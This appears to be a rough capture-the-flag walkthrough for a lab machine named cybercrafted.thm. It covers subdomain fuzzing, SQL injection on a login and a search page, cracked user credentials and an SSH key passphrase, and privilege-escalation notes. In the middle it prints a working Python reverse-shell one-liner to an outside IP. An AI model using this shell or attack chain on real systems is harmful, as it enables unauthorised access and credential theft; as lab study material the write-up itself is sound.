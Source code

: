 start with nmap

80
22


***

http port 80

http://cybercrafted.thm/

comment on index page 

`<!-- A Note to the developers: Just finished up adding other subdomains, now you can work on them! -->`

site uses php.

subdomain:

```
www                     [Status: 200, Size: 832, Words: 236, Lines: 35]
admin                   [Status: 200, Size: 937, Words: 218, Lines: 31]
store                   [Status: 403, Size: 287, Words: 20, Lines: 10]
www.admin               [Status: 200, Size: 937, Words: 218, Lines: 31]
www.store               [Status: 403, Size: 291, Words: 20, Lines: 10]


```

admin -->loginpage --> sqlinjection

***

ffuf the store subdomain.

/search.php --> sqlinjection

```
available databases [5]:                                                                                              
[*] information_schema                                     
[*] mysql                                                  
[*]performance_schema                                                    [*] sys                                                                                                               
[*] webapp   

```

from webapp database:

xXUltimateCreeperXx : 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01 : diamond123456789
xxultimatecreeperxx
log in using above creds to admin.cybercrafted.thm

got panel.php , we can run commands. 

get xXUltimateCreeperXx id_rsa

id_rsa is encrypted. using ssh2john cracked id_rsa password.

`creepin2006`


python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.9.112",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

***

privs 


cronjob :

 *     1 * *   cybercrafted tar -zcf /opt/minecraft/WorldBackup/world.tgz /opt/minecraft/cybercrafte
d/world/*


backup file /etc/apt/sources.list.curtin.old

/var/www/tld/secret 

 /usr/bin/SCREEN -DmS cybercrafted /usr/bin/java -Xmx2
56m -jar craftbukkit-1.7.2-server.jar nogui                         


/usr/bin/java -Xmx256m -jar craftbukkit-1.7.2-server.
jar nogui                                                         



* *     1 * *   cybercrafted tar -zcf /opt/minecraft/WorldBackup/world.tgz /opt/minecraft/cybercrafted/world/*


/opt/minecraft/cybercrafted/plugins/LoginSystem$ cat log.txt

found cybercrafted password : JavaEdition>Bedrock